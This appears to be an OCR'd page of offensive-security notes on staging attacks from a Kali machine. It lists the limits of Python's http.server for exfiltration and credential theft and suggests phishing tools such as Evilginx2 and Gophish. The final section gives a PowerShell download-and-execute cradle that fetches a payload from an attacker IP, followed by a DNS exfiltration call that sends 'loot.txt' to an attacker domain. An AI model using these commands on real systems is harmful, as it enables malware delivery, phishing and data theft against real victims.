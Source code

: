 
## ❌ Limitations of `http.server`

| Limitation                | Why it matters                                             |
| ------------------------- | ---------------------------------------------------------- |
| No HTTPS                  | May be blocked or suspicious over plaintext HTTP           |
| No server-side logic      | Can’t process POST requests (e.g., exfil data back)        |
| No authentication/logging | Can’t log headers, user-agents, or credential theft        |
| No content type tuning    | Doesn’t set MIME types appropriately for advanced payloads |

---

## 🧪 What to Use Instead (When Needed)

| Tool                              | When to use                                                                             |
| --------------------------------- | --------------------------------------------------------------------------------------- |
| **Flask**                         | Lightweight Python web app, handle POST requests or credentials                         |
| **PHP (Apache)**                  | If hosting credential phishing or browser-exploits                                      |
| **Responder**                     | SMB/HTTP/LDAP spoofing in LAN                                                           |
| **SimpleHTTPServer with logging** | Fork or extend `http.server` to add request logging                                     |
| **Evilginx2 / Gophish**           | If you're phishing creds/tokens via MITM proxy                                          |
| **ngrok / cloudflared**           | If you're working remotely and need to expose local Kali web services over the internet |

---

## 🛠️ DNS + `http.server` Together?

If you're exfiltrating data **via DNS** but want to **serve the initial stage over HTTP**, this works perfectly:

1. Host your macro or dropper:

   * `http://your-kali-ip/payload.py`

2. Inside the macro or PowerShell:

   ```powershell
   IEX(New-Object Net.WebClient).DownloadString("http://your-ip/payload.ps1")
   ```

3. The payload does DNS-based exfil:

   ```python
   exfiltrate_file_via_dns("loot.txt", "x.yourdomain.com")
   ```

---
